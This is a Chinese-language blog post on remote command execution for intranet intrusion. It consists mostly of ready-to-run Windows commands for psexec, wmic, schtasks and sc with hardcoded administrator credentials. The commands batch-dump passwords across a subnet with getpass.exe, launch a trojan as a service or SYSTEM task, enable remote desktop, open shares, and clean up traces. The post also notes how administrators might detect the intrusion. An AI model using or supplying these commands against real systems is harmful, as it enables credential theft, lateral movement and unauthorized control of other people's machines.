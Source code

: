 ```yaml
---
title: 远程执行命令的几种方法 
tags:
- schtasks
- wmic
- psexec
- sc
- ipc
toc: flase
date: 2017-02-13 22:31:06
description:
categories: 内网安全
---
```

**查看远程计算机共享内容**
```bat
net view \\192.168.1.100
```
**psexec:
远程执行工具**

环境: 需要开启admin$
445端口

注意:psExec建立连接后会在对方机器安装一个服务(PSEXESVC),exit退出后会清除,但是会出现概率不能删除,易于管理员发现(本地测试过几次,只有一次安装了服务)
```bat
psexec \\192.168.1.100 /accepteula -u administrator -p 123456 ipconfig  #远程执行cmd命令并返回结果
psexec \\192.168.1.100 /accepteula -u administrator -p 123456 -c getpass.exe
```
-c <[路径]文件名>:拷贝文件到远程机器并运行(注意:运行结束后文件会自动删除)

getpass.exe为本机psexec.exe所在目录下,也可以直接执行其他目录的路径,例如c:\getpass.exe

**批量抓同网段密码**
```bat
for /L %%G in (128 1 128) do  psexec \\172.16.44.%%G  /accepteula -u administrator -p 123456 -c c:\getpass.exe >172.16.44.%%G_pass.txt
```
<!-- more -->
拷贝本地psexec.exe文件所在目录的getpass.exe到远程计算机. 执行并返回结果 ,并删除远程计算机的getpass.exe(批量抓全部机器密码)

**wmic:
从命令行接口和批命令脚本执行系统管理的支持**

环境:WMIC服务启动(Windows Management Instrumentation),禁用情况下会提示Description = 无法启动服务
135端口

```bat
wmic /node:192.168.1.100 /user:administrator /password:123456 process call  create c:\1.exe      ##创建进程,可以直接运行exe程序或者执行系统命令,例如添加用户,不过没有命令返回的结果  
wmic /node:192.168.1.100 /user:administrator /password:123456 process  ##查看远程计算机进程   
wmic /node:192.168.1.100 /user:administrator /password:123456 process where name="calc.exe" call terminate  ##关闭远程计算机进程   
wmic /output:"%userprofile%\Desktop\temp.html" /node:192.168.1.100 /user:administrator /password:123456  process list full /format:htable ##读取进程并以html格式化输出到本地桌面   
wmic /node:192.168.1.100 /user:administrator /password:123456 useraccount ##查看远程计算机用户    
wmic /node:192.168.1.100 /user:administrator /password:123456 computersystem get domain  ##读取远程计算机域/工作组    
wmic /node:192.168.1.100 /user:administrator /password:123456 SHARE CALL Create "","test","3","c_share","","c:\",0  ##开启远程计算机共享 c_share为共享名字,c:\为共享路径  
wmic /node:192.168.1.100 /user:administrator /password:123456 SHARE where name="c_share" call delete  ##删除远程计算机共享,可以直接运行SHARE  查看全部共享 
wmic /node:192.168.1.100 /user:administrator /password:123456  PATH win32_terminalservicesetting WHERE (__Class!="") CALL SetAllowTSConnections 1         ##开启远程计算机的远程桌面 
wmic /output:"%userprofile%\Desktop\temp.html" /node:192.168.1.100 /user:administrator /password:123456 FSDIR where "drive='c:'" list  /format:htable    ##读取远程计算机C盘的全部目录并输出到桌面
```
**schtasks:
本地或远程系统上的计划系统。替代 at**

条件:启动Task Scheduler服务
```bat
net use \\192.168.1.100\ipc$ 123456 /user:administrator 
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /s \\192.168.1.100 /ru system  /sc once /st 05:00 
schtasks /run /tn foobar /s  192.168.1.100              ##远程计算机启动任务 
schtasks /F /delete /tn foobar /s 192.168.1.100          ##清除schtasks
```
**sc:
远程创建服务管理程序**

sc命令各个参数的等号后面都要有一个空格,否则报语法错误
```bat
sc \\host create foobar binpath=“c:\windows\temp\foobar.exe”    ##新建服务,指向拷贝的木马路径 
sc \\192.168.1.100 create foobar binpath= c:\udp.exe obj= administrator password= "123456" 
sc \\192.168.1.100 start foobar        ##启动建立的服务 
sc \\192.168.1.100 delete foobar    ##完事后删除服务
```
